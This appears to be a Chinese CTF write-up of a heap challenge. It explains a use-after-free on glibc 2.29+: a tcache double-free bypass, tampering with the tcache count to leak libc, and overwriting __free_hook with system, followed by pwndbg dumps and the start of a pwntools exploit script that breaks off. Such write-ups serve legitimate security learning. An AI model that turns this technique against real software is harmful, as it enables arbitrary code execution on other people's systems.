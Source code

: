 这里虽然`free`了大堆，但是并没清空指针。可以UAF。

主要函数都在这里了。思路是围绕glibc-2.29之后的tcache机制展开的。

首先修改tcache的计数位为$7$，因为tcache里相同的块只能存$7$个，然后堆就可以被放到Unsorted Bin里了。这样我们可以通过`show()`来泄漏libc地址。在这之前我们还要泄漏heap的基地址，来确定tcache的地址。然后我们再修改`__free_hook`的GOT为`system`。

我们先建立$3$个大堆，再`free`掉前两个，他们就被存在tcache里，输出后`free`掉的大堆，即可输出前一个大堆的位置，由此确定heap的基地址，从而确定tcache的位置。也就知道了相应的给tcache中大堆计数的位置。

```shell
tcachebins
0x90 [  2]: 0x562bd1d45330 —▸ 0x562bd1d45280 ◂— 0x0
```

然后为了修改计数位，我们需要edit的帮助，需要double free，我们修改`0x562bd1d45330`处的bk指针的位置，绕过double free的检查，再次`free`掉它。

```shell
tcachebins
0x90 [  3]: 0x55c73e8d4330 ◂— 0x55c73e8d4330
```

再次申请这块内存，就可以修改bk指针，从而指向tcache中的计数的位置。

```shell
tcachebins
0x90 [  2]: 0x563ea9adc330 —▸ 0x563ea9adc010 ◂— 0x200000000000000
```

最后的那个`0x200000000000000`就是每个计数的位置。将它修改成`0x700000000000000`即可。

然后再次`free`的时候即可`free`到Unsorted Bin里。接着通过`show()`泄漏`main_arena`位置从而泄漏libc的位置。

然后修改`tcache->entry`把放`0x90`即大堆的位置修改为`__free_hook - 0x10`的位置（因为name 和 sex 还占着`0x10`的大小，修改`__free_hook`指向`system`，顺便在name的位置写入`/bin/sh\x00`

```shell
修改`__free_hook`之前：
0x7ffa84a898e8 <__free_hook>:   0x0000000000000000      0x0000000000000000
0x7ffa84a898f8 <next_to_use.11802>:     0x0000000000000000      0x0000000000000000
```

```shell
修改`__free_hook`之后：指向system
0x7ffa84a898e8 <__free_hook>:   0x00007ffa846eb440      0x0000000000000000
0x7ffa84a898f8 <next_to_use.11802>:     0x0000000000000000      0x0000000000000000
```

最后调用`free`。

### EXP

```python
#! /usr/bin/python
#-*- coding: utf-8 -*-
from pwn import *

context.log_level = 'debug'

p = process('./pwn')
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

context.terminal = ['tmux', 'splitw', '-h']
def debug(p, cmd):
  '''cmd = 'b *%d\n' %(proc_base+breakaddr)'''
  gdb.attach(p, cmd)
  pause()

def add(p, name, sex, content):
  p.sendlineafter("Give me your choice :", '1')
  p.sendafter("input name", name.ljust(0x8, '\x00'))
  p.sendafter("input sex", sex)
```